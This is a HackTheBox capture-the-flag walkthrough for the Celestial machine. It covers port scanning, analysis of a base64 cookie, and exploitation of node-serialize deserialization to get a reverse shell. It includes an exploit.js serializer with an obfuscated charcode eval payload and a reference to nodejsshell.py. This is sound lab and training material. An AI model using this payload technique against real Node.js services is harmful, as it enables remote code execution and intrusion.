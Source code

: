 # Recon

As usual we start with a port scan on the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.85 -T5
```

That only reveals an open port on 3000 running the Node.js Express Framework. 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/1.png">

# Enumeration

After browsing to the website we run into a 404. But after refreshing we get different message. BurpSuite shows that on the first visit a cookie is set and after revisiting this is passed as a parameter.

Removing the following from the get request resulted in an error. This tells us that the data appears to be unserialized. We also spot a username: ```sun```.
```
Upgrade-Insecure-Requests: 1
If-None-Match: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/2.png">

The cookie appears to be base64 encoded. After decoding we get the following result:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/3.png">

Changing the ```num``` has an effect on the formula. We can mess with the parameters to generate the same kind of error we got before.

# Initial Foothold
We can use nodejsshell.py to create a encoded NodeJS reverse shell. We'll first have to create a payload, serialize it, base64 encode it and finally send it as the cookie parameter. 

[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

First we'll run ```python nodejsshell.py [Listener IP] [Listener Port]``` to create the encoded shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/4.png">


Then we'll create an ```exploit.js``` file which we use to serialize the payload so that it matches the website's.
```
var y = { rce: function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,10>
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));

```

Running ```nodejs exploit.js``` will create our serialized payload.

I had a issue saying the node-serilize module could not be found. Running ```npm install``` solved this.

After this we finally base64 encode it so we can pass it as the cookie parameter. We make sure to have our listener ready before we send our request with BurpSuite. This will result in an error but at the same time provides us with a reverse shell as user ```sun```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/5.png">










